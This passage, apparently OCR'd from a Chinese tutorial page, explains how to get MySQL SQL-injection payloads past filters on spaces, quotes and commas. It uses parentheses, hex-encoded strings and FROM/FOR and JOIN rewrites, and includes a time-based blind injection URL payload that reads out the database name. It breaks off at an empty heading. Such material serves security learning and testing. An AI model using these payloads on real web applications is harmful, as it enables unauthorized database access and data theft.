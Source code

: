 ### 使用**两个空格**替代一个空格

### 使用**括号**绕过

如果空格被过滤，括号没有被过滤，可以用括号绕过。
在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

例如：

```sql
select(user())from dual where(1=1)and(2=2)
```

这种过滤方法常常用于time based盲注,例如：

```sql
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

## 过滤引号

### 使用**16进制**绕过

会使用到引号的地方一般是在最后的where子句中。如下面的一条SQL语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：

```sql
select column_name  from information_schema.tables where table_name="users"
```

这个时候如果引号被过滤了，那么上面的`where`子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
`users`的十六进制的字符串是`7573657273`。那么最后的SQL语句就变为了：

```sql
select column_name  from information_schema.tables where table_name=0x7573657273
```

## 过滤逗号

### 使用**from关键字**绕过

对于`substr()`和`mid()`这两个方法可以使用`from to`的方式来解决：

```sql
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

### 使用**join关键字**绕过

```sql
union select 1,2
等价于
union select * from (select 1)a join (select 2)b
```

### 使用**like关键字**绕过

